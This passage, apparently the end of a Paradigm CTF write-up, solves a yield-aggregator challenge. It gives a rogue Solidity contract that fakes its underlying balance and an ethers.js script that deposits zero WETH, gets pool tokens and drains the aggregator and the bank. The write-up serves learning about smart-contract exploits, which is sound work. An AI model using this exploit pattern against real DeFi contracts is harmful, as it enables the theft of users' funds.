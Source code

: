 ```
contract DodgyAfBank is Protocol {

    ERC20Like public override underlying = ERC20Like(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    mapping (address => uint256) public balanceOf;
    uint256 public totalSupply;
    uint256 public fakeUnderlyingBal;

    function mint(uint256 amount) public override {
        
        require(underlying.transferFrom(msg.sender, address(this), amount));
        balanceOf[msg.sender] += amount;
        totalSupply += amount;
        fakeUnderlyingBal += 50 ether;
        //require(1 == 2, "sorry, there's load shedding");
    }

    function balanceUnderlying() public override view returns (uint256) {
        return fakeUnderlyingBal;
    }
    
    function burn(uint256 amount) public override {
        balanceOf[msg.sender] -= amount;
        totalSupply -= amount;
        require(underlying.transfer(msg.sender, amount));
    }

    function rate() public override view returns (uint256) {
        return 1;
    }
}
```

Calling deposit with no WETH gives us some pool tokens, which we can use to withdraw the balance of the bank and aggregator:


```javascript
//deploy a dodgy bank
const DodgyAfBank = await ethers.getContractFactory("DodgyAfBank");
let dab = await DodgyAfBank.deploy();
await dab.deployed();

//deposit 0 WETH and get some pool tokens
await yield_aggregator.deposit(dab.address, ["0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2"], [ethers.utils.parseEther("0")]);

console.log("I have this many pool tokens now: " + await yield_aggregator.getPoolTokens());

//use the pool tokens to withdraw the MiniBank's WETH
await yield_aggregator.withdraw(bankaddr, ["0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2"], [ethers.utils.parseEther("50")]);
```   
This drains the aggregator and the Minibank, which solves the challenge. 


---
Really big thanks to [@paradigmctf](https://twitter.com/paradigm_ctf?lang=en) for the great CTF! There were lots of cool challenges, and there's definitely lots more to learn from the unsolved chals. Looking forward to the next one! :)
